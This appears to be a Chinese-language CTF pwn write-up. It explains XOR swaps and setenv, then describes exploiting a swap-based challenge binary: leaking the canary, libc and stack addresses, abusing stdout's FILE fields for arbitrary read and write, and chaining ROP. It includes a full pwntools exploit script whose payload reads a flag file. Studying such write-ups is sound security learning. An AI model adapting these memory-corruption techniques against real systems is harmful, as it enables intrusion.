


1. `*a1 ^= *a2;`
   这一行使用异或运算符 `^`，将 `a1` 指向的值与 `a2` 指向的值异或，并将结果存回 `a1` 指向的位置。异或具有以下性质：任何数与自身异或都为零，与零异或则保持原值。

2. `*a2 ^= *a1;`
   这里再次使用异或，将 `a2` 指向的值与 `a1` 现在指向的新值异或。由于 `a1` 当前指向的值实际上是 `*a1 ^ *a2`，因此 `(*a2) ^ (*a1 ^ *a2)` 的结果就是 `*a1` 的原始值。结果存入 `a2` 指向的位置。

3. `result = a1;`
   这一行实际上没有参与数值交换，只是将 `a1` 的值赋给 `result` 变量。这可能是为了返回某个值，但交换过程中 `result` 的值实际上没有变化，因此这行代码可能只是为了满足函数声明中的返回类型，或用于其他目的（例如告诉调用者哪个指针指向的值先被修改）。

4. `*a1 ^= *a2;`
   最后一步再次异或，将 `a1` 指向的值与 `a2` 现在指向的新值异或。由于 `a2` 当前指向的值实际上是 `a1` 原来指向的值，因此 `(*a1 ^ *a2) ^ *a1` 的结果就是 `a2` 原来指向的值。结果存入 `a1` 指向的位置。




`setenv` 函数在 C 语言中用于设置或修改进程的环境变量。它声明于 `stdlib.h` 头文件，可在程序运行期间动态修改环境变量的值。`setenv` 的函数原型如下：

```c
#include <stdlib.h>

int setenv(const char *name, const char *value, int overwrite);
```

函数参数如下：

- `name`：`char` 类型的指针，表示环境变量名。
- `value`：`char` 类型的指针，表示环境变量的新值。
- `overwrite`：`int` 类型的值，表示是否覆盖已存在的同名环境变量。如果该参数非零，即使变量已存在也会覆盖；如果为零且变量已存在，函数不进行任何操作。

函数返回整数：成功时返回 0，失败时返回非零值。

下面是使用 `setenv` 函数的示例：

```c
#include <stdlib.h>
#include <stdio.h>

int main() {
    // 设置环境变量 TEST_VAR 为 "Hello World"
    if (setenv("TEST_VAR", "Hello World", 1) != 0) {
        perror("setenv error");
        return 1;
    }

    // 获取环境变量 TEST_VAR 的值并打印
    char *value = getenv("TEST_VAR");
    if (value != NULL) {
        printf("Environment variable TEST_VAR is set to: %s\n", value);
    } else {
        printf("Environment variable TEST_VAR is not set.\n");
    }

    return 0;
}
```

注意，`setenv` 设置的环境变量仅在当前进程及其子进程中生效，不影响父进程或其他无关进程的环境变量。此外，程序结束后，这些环境变量不会保存到系统中，除非通过其他机制（例如在脚本中重新设置）将其持久化。


### 思路


调试有点麻烦，因为 run 中嵌入了构建镜像里的绝对地址，只能先把它 patch 掉，再在本地调试。
使用 swap 交换栈上地址处的八字节内容。


实现 main 函数的无限重复循环。
然后将某个值与自身交换，结果保持不变，仍然为零，此时会跳出；再通过下面与 canary 的异或，就能将其泄露。上述操作作为一系列泄露的最后一部分。

泄露 libc 地址：最后将其交换到 ptr 的位置，控制好返回地址后，再在原位置交换一次，然后输出与 canary 异或的结果；再与之前泄露的 canary 异或一次（不交换 ptr 的值——0 与 canary 异或仍是 canary），即可得到原始值。


然后用同样的方法泄露栈地址。



接下来是最巧妙的部分：从当前 call swap 函数栈上的某个地址，获取一个栈地址的内容，加上固定偏移，就能得到下一轮循环中 swap 对应的 ptr 地址；再根据 libc 地址获得 stdout 地址，计算它到下一次 ptr 的偏移，就可以修改 stdout 结构体。



通过与 stdout 的内容交换实现任意地址读，泄露栈上存放的大量指向环境变量的栈地址（其中部分栈地址处的内容是 libc 地址），从而获得大量栈地址，并保存末尾字节合适的栈地址（例如要修改第三个字节，就找一个以 3 或 b 结尾的栈地址；与其交换时，此时的最后一个字节恰好是栈地址 + 8 的第三个字节，正好对应 ptr 与 canary 异或后再反转的最后一个字节，也就是 ptr 的第一个字节）。

由于只能交换，不能写入，唯一的输入机会就是 call swap 之前的输入。swap 函数与输入函数处于同一层级，栈帧存在重叠部分，因此可以利用输入函数残留的变量，再通过 swap 写入其他位置（利用输入调用的栈帧中残留的已写入变量，让 swap 将其写到栈上另一处）。


构造 pop rdi ret 和 gets 函数地址，将它们写到返回地址处，再输入 ROP 链。


使用 swap，将栈上现有的 libc 地址与末尾为 3 或 b 的栈地址加 5 处交换。再用 swap 交换 _IO_write_ptr 和 _IO_write_end，设置要写入的栈地址，控制 ptr 的值，使异或后写入的最高第八字节（对应输入的第一个字节与 canary 异或的结果）恰好修改残留 libc 地址的倒数第三个字节；再用相同方法修改第二个字节和第一个字节。
> 通过 stdout 任意写时，需要构造：
让 fp -> _IO_write_ptr 和 fp -> _IO_write_end 指向待写入的位置。写入的内容是准备写入文件的变量内容。偏移分别为 0x28 和 0x30。
调用 fwrite、fputs 等文件写入函数。


修改后，需要将这个栈地址处的内容向下交换到固定位置保存。要修改倒数第二个字节时，需要找到末尾为 2 或 a 的栈地址，再将之前保存位置的内容与栈地址 + 6 处交换；随后从该栈地址写入 8 字节时，就能修改栈地址 + 6 处的第二个字节，也就是在之前已修改第三个字节的基础上继续修改第二个字节，第一个字节同理。最终修改好的 libc 地址也保存在某个位置。

使用 swap，将栈上与 PIE 地址相关的内容与末尾为 2 或 a 的地址加 5 处交换，再按上述方法操作，最终改为 pop rdi ; ret 对应的地址。最终地址也保存在某个位置。

然后将保存好的地址移动到返回地址区域，将 rdi 参数构造为此前泄露的栈地址。gets 函数之后仍需交换回 start 函数地址（因为输入 ROP 链后，最后还要重新进入 main 函数，通过 swap 将其交换到返回地址处，组成 ROP 链）。随后向栈地址对应的区域输入 ROP 链。

最后，先把栈地址开头的文件名交换到固定位置，再将 ROP 部分交换到栈上的返回地址区域（输入的 ROP payload 为 filename + close + orw）。

### 利用脚本

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
libc = ELF("./libc.so.6")
elf = ELF("./pwn")
p = process("./change_run")

def lg(msg, addr=None):
    if addr is not None:
        log.info(f"{msg} {addr}")
    else:
        log.info(msg)
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
ru = lambda text : p.recvuntil(text)
ia = lambda : p.interactive()

def swap(num1,num2):
    ru(b'11? >\n')
    s(str(num1))
    ru(b'77! >\n')
    s(str(num2))

def leak(C, canary): # A^B = C 
    bytes_C = C.to_bytes(8, byteorder='little')
    swapped_bytes = list(bytes_C)
    for i in range(4):
        swapped_bytes[i], swapped_bytes[7 - i] = swapped_bytes[7 - i], swapped_bytes[i]
    reversed_bytes = bytes(swapped_bytes)
    reversed_int = int.from_bytes(reversed_bytes, byteorder='little')
    original_data = reversed_int ^ canary
    return original_data

# 泄露stack  
def get_now_stack_ptr(canary):
    swap(7,0)
    swap(5,12)
    swap(0,0)
    tmp = u64(p.recv(8))
    stack_ptr_dbb8_daa0 = leak(tmp,canary)
    stack_ptr = stack_ptr_dbb8_daa0 -0x1f8 # 下一轮0x1f8
    lg("Now ptr is",hex(stack_ptr))
    return stack_ptr

# find可用地址
def get_addr(io_s,canary): #  打印start_addr栈开始的所有内容
    now_ptr = get_now_stack_ptr(canary)
    # 构造任意读
    offest_1 = (io_s - now_ptr) // 8    # write_ptr
    offest_0 = offest_1 - 1  # write_base 
    offest__1 = offest_0 - 2    # read_end 
    offest_8 = offest_1 + 7 # file_name
    lg(f"({io_s} - {now_ptr})//8 = {offest_1}")

    
    swap(5,12)# 28

    swap(1,0) # ptr = 1
    swap(offest__1,22) # write_base 0x7fff4db29ec0
    swap(offest_0,13) # write_ptr 0x7fff4db29ec0
    swap(offest_1,200) # write_end 0x7fff4db2ceec
    swap(offest_8,0) # file_name = 1 
    swap(0,0)
    tmp = p.recv(1000)  # 接收1000字节
    print(tmp)
    
    addresses = struct.unpack('125Q', tmp)  
    memory_dict = {i * 8: addr for i, addr in enumerate(addresses)}
    match_offsets_2a = []
    match_offsets_19 = []
    match_offsets_3b = []
    for offset, addr in memory_dict.items():
        last_byte = addr & 0xFF
        if last_byte % 16 == 2 or last_byte % 16 == 10:
            print(f"Match the addr last is 2/a, found at stack offset: {hex(offset//8)} with address: {hex(addr)}")
            match_offsets_2a.append((offset // 8, addr))  
        if last_byte % 16 == 1 or last_byte % 16 == 9:
            print(f"Match the addr last is 1/9, found at stack offset: {hex(offset//8)} with address: {hex(addr)}")
            match_offsets_19.append((offset // 8, addr)) 
        if last_byte % 16 == 3 or last_byte % 16 == 11:
            print(f"Match the addr last is 3/b, found at stack offset: {hex(offset//8)} with address: {hex(addr)}")
            match_offsets_3b.append((offset // 8, addr)) 
    return match_offsets_2a, match_offsets_19,match_offsets_3b

# int _flags   0
# char* _IO_read_ptr;   /* Current read pointer */  8      
# char* _IO_read_end;   /* End of get area. */   16      
# char* _IO_read_base;  /* Start of putback+get area. */  24      
# char* _IO_write_base; /* Start of put area. */    
# char* _IO_write_ptr;  /* Current put pointer. */ 
# char* _IO_write_end;  /* End of put area. */ 
# char* _IO_buf_base;   /* Start of reserve area. */  
# char* _IO_buf_end;    /* End of reserve area. */   
# # # #
# char *_IO_save_base; /* Pointer to start of non-current get area. */
# char *_IO_backup_base;  /* Pointer to first valid character of backup area */
# char *_IO_save_end; /* Pointer to end of non-current get area. */
# ### #
# int _fileno;

        
# 在ptr内存中存储1个字节
def read_1(data,canary): # stack_ptr + 6  
    feak_data = leak(data,canary)
    lg("Need change bytes is ",hex(data))
    lg("feak_data is ",hex(feak_data))
    feak_data = int(feak_data>>56)
    lg("The true byte is ",hex(feak_data))
    swap(-9,feak_data)
    swap(0,feak_data)
      
def change_3(stack_start,addr_2a,addr_2a_offest,offset_bechange,data,io_s,canary,i): #修改倒数第三位字节
    print("addr_2a",addr_2a)
    now_ptr = get_now_stack_ptr(canary)
    
    feak_data = leak(data,canary)
    lg("Need change bytes is ",hex(data))
    lg("feak_data is ",hex(feak_data))
    feak_data = int(feak_data>>56)
    lg("The true byte is ",hex(feak_data))

 
    
    swap(-9,feak_data)
    swap(0,feak_data)

    if offset_bechange != 12 and offset_bechange != 10:
        offset_bechange = (stack_start-now_ptr) // 8
    # 先将要修改的内容change放到addr_2a 的addr_28,完整的下一个
    swap(5,12)
    addr_28 = addr_2a - i%4 + 8
    offset_change_0 = (addr_28 - now_ptr)// 8 
    print("stack_start",stack_start)
    print("addr_2a",addr_2a)
    print("addr_28",addr_28)
    print("addr_2a_offest",addr_2a_offest)
    
    swap(offset_bechange,offset_change_0) 
    # 改io到特定地址，io任一写
    offset_change_2 = (stack_start-now_ptr) // 8 + addr_2a_offest   #末尾为2/a
  
    #store tmp to da90
    offest_1 = (io_s - now_ptr) // 8  # ptr
    offest_2 = offest_1 + 1 # end
    # offest_0 = offest_1 - 1  # write_s
    lg(f"({io_s} - {now_ptr})//8 = {offest_1}")


    swap(offest_1,offset_change_2)  # weite_ptr
    swap(offest_2,offset_change_2+10*i)   #warte_end   
    swap(0,0)
    #将换完的内容放到固定位置
    now_ptr -= 224 
    offset_change_0 = (addr_28 - now_ptr)// 8
    swap(5,12)
    swap(offset_change_0,(stack_start-now_ptr) // 8) #放到固定栈那里
    swap(0,0)
    


# 泄露canary   
swap(5,12)
swap(0,0)
canary = u64(p.recv(8))
lg("canary is",hex(canary))


# 泄露io_addr   
swap(-2,0)
swap(5,12)
swap(0,0)
tmp = u64(p.recv(8))
libc_902e8 = leak(tmp,canary)

stdout = libc_902e8 - (0x902e8-0x8c6a0)
write_s = stdout + 8*5 #0x28
write_e = stdout + 8*6 #0x30
lg("stdout is",hex(stdout))


#指向环境变量的栈地址，以不同字节结尾
swap(5,12)
swap(13,0) 
swap(0,0)
tmp = u64(p.recv(8))
leak_stack = leak(tmp,canary)
print("leak_stack",hex(leak_stack))

# 

match_offsets_2a, match_offsets_19,match_offsets_3b= get_addr(write_s,canary)
addr_1_offest,addr_1 = match_offsets_19[1]
addr_2_offest,addr_2 = match_offsets_2a[1]
addr_3_offest,addr_3 = match_offsets_3b[1]
lg("use 19 is :",hex(addr_1))
lg("use 2a is :",hex(addr_2))
lg("use 3b is :",hex(addr_3))


# 泄露libcbase  
swap(5,12)
swap(0,12)
swap(0,0)
tmp = u64(p.recv(8))
libc_start_243 = leak(tmp,canary)
libcbase = libc_start_243 - libc.sym['__libc_start_main'] - 243
lg("libcbase is",hex(libcbase))


gets_addr = libcbase+libc.sym['gets']
change_num = gets_addr & 0xFFFFFF
lg("the change 3 bytes for libcstart ",hex(change_num))
high_byte = (change_num >> 16) & 0xFF
next_byte = (change_num >> 8) & 0xFF
last_bytes = change_num & 0xFF

change_3(leak_stack,addr_3,addr_3_offest,12,high_byte,write_s,canary,3) #改libc的倒数第三个字节
change_3(leak_stack,addr_2,addr_2_offest,0,next_byte,write_s,canary,2) # 修改倒数第二个字节
change_3(leak_stack,addr_1,addr_1_offest,0,last_bytes,write_s,canary,1) # 修改最后个字节   #存储libc_在栈地址

now_ptr = get_now_stack_ptr(canary)
gets_addr = leak_stack - 16
swap((leak_stack-now_ptr) // 8,(leak_stack-now_ptr) // 8-2)
lg("gets_addr is",hex(gets_addr))


# pie  
swap(5,12)
swap(0,9)
swap(0,0)
tmp = u64(p.recv(8))
main_153c = leak(tmp,canary)
mainbase = main_153c - 0x153c
lg("mainbase is",hex(mainbase))


pop_rdi  = mainbase + 0x1753
change_pop = pop_rdi & 0xFFFF
next_byte = (change_pop >> 8) & 0xFF
last_byte = change_pop & 0xFF
lg("the change 2 bytes for pop_rdi ",hex(change_pop))

addr_1_offest,addr_1 = match_offsets_19[2]
addr_2_offest,addr_2 = match_offsets_2a[2]
lg("use 19 is :",hex(addr_1))
lg("use 2a is :",hex(addr_2))


change_3(leak_stack,addr_2,addr_2_offest,10,next_byte,write_s,canary,6) # 修改倒数第二个字节

change_3(leak_stack,addr_1,addr_1_offest,0,last_byte,write_s,canary,5) # 修改最后两个字节   #存储libc_在栈地址

now_ptr = get_now_stack_ptr(canary)
pop_rdi_addr = leak_stack - 24
swap((leak_stack-now_ptr) // 8,(leak_stack-now_ptr) // 8-3)
lg("pop_rdi_addr is",hex(pop_rdi_addr))


swap(5,(leak_stack-now_ptr) // 8-3) # pop_rdi
swap(6,13) # stack
swap(7,(leak_stack-now_ptr) // 8-2) # libc_gets


swap(8,12) # libc_main


swap(0,0)
lg("Wait set rop")

pop_rdi  = libcbase + 0x23b6a
pop_rdx_r12 = libcbase + 0x119431
pop_rsi = libcbase + 0x2601f
pop_rax = libcbase + 0x36174
pop_rdx_rbx = libcbase + 0x15fae6
syscall = libcbase + 0x630a9
reads  = libcbase+libc.sym['read']
openat = libcbase+libc.sym['openat']
writes   = libcbase+libc.sym['write']

payload = (b'./flag').ljust(8,b'\x00') + p64(pop_rdi) + p64(2) + p64(pop_rax) + p64(3) + p64(syscall)
payload += p64(pop_rdi) + p64(0xffffff9c) + p64(pop_rsi) + p64(leak_stack) + p64(pop_rdx_rbx) + p64(0x100) * 2 + p64(pop_rax) + p64(257) + p64(syscall)
payload += p64(pop_rdi) + p64(2) + p64(pop_rsi)+p64(leak_stack)+p64(pop_rdx_r12)+p64(0x20)+p64(0)+p64(reads)
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi)+p64(leak_stack)+p64(pop_rdx_r12)+p64(0x20)+p64(0)+p64(writes)

sl(payload)


now_ptr = get_now_stack_ptr(canary)
offset = (leak_stack - now_ptr) // 8

# gdb.attach(p)
# pause()

for i in range(len(payload) // 8 ):
    swap(i + offset , 5 + i)

swap(0,0)

ia()

```


## Appetizers glibc 2.35


open+read（count=0x9j 即可）+write
